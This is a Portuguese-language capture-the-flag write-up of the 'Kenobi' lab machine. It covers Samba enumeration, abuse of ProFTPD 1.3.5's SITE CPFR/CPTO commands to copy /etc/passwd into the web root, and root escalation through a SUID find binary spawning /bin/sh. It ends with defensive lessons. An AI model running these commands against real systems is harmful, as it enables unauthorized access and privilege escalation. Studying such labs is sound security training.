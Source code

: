 Kenobi - Full Report

🎯 Objetivo

Explorar uma máquina Linux vulnerável com serviços Samba (compartilhamento de arquivos) e ProFTPD, praticando escalação de privilégios via binários SUID.

🛠️ Ferramentas Utilizadas

Ferramenta	Comando Exemplo	Finalidade
Nmap		nmap -sV -p- 10.10.10.10	Varredura de portas e serviços
Smbclient	smbclient //IP/anonymous	Acesso a compartilhamentos Samba
Searchsploit	searchsploit proftpd 1.3.5	Busca exploits para o ProFTPD


🔍 Passo a Passo Detalhado

1. Enumeração Inicial (Nmap)

Comando:
nmap -sV -p- 10.10.10.10 -oN scan.txt

Saída Crítica:
21/tcp  open  ftp     ProFTPD 1.3.5  
111/tcp open  rpcbind  
139/tcp open  netbios-ssn Samba 3.X  

O que aprendemos?
A máquina tem um FTP (ProFTPD) e Samba rodando.

2. Exploração do Samba (Acesso Anônimo)
Comando:
smbclient //10.10.10.10/anonymous -N

Passos:
Dentro do Samba, listamos arquivos:
ls
Encontramos um arquivo log.txt com vazamento de credenciais FTP.

3. Exploração do ProFTPD (RCE - Remote Code Execution)

Comando:
ftp 10.10.10.10

Credenciais:
Usuário: kenobi
Senha: [vazada no log.txt]

Exploit: Copiar arquivos sensíveis via FTP:
ftp> site CPFR /etc/passwd  # Seleciona arquivo  
ftp> site CPTO /var/www/html/passwd  # Copia para o diretório web  

Resultado:
Acessamos http://10.10.10.10/passwd e vemos os usuários do sistema.

4. Escalação de Privilégios (SUID - /usr/bin/find)

Comando:
find / -perm -4000 2>/dev/null

Binário vulnerável:
/usr/bin/find

Exploração:
/usr/bin/find . -exec /bin/sh \; -quit

Resultado:
Obtemos shell como root!

🏆 Artefatos Coletados
Flag		Localização		Método
flag1.txt	/var/www/flag1.txt	Acesso via Samba
flag2.txt	/root/flag2.txt		Escalação via SUID


💡 Lições Aprendidas
Samba com acesso anônimo é um risco grave (sempre desativar).
ProFTPD 1.3.5 permite cópia arbitrária de arquivos (atualizar sempre!).
Binários SUID são vetores comuns de escalação (monitore com find / -perm -4000).